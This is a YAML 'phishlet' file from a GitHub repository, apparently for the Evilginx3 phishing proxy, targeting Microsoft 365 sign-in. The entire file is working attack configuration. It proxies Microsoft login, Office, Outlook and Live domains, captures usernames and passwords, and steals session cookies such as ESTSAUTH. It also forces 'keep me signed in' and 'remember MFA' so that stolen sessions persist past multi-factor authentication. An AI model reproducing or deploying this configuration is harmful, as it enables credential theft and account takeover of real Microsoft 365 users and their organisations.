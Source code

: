 ## Github repo: https://github.com/faelsfernandes/evilginx3-phishlets/blob/main/o365-mfa.yaml

### Note that this is a .yaml file

name: 'o365-mfa'
author: '@faelsfernandes'
min_ver: '2.4.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing:false}
  - {phish_sub: 'device.login', orig_sub: 'device.login', domain: 'microsoftonline.com', session: true, is_landing:true}
  - {phish_sub: 'outlook', orig_sub: 'www', domain: 'outlook.com', session: false, is_landing:true}
  - {phish_sub: 'login', orig_sub: 'login', domain: 'live.com', session: false, is_landing:true}

sub_filters:
auth_tokens:
  - domain: '.login.microsoftonline.com'
    keys: ['ESTSAUTH', 'ESTSAUTHPERSISTENT','SignInStateCookie',]
  - domain: 'login.microsoftonline.com'
    keys: ['ESTSAUTHLIGHT']   
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'     
login:
  domain: 'login.microsoftonline.com'
  path: '/' 
force_post:
  - path: '/kmsi'
    search: 
      - {key: 'LoginOptions', search: '.*'}
    force:
      - {key: 'LoginOptions', value: '1'}
    type: 'post'
  - path: '/common/SAS'
    search: 
      - {key: 'rememberMFA', search: '.*'}
    force:
      - {key: 'rememberMFA', value: 'true'}
    type: 'post'
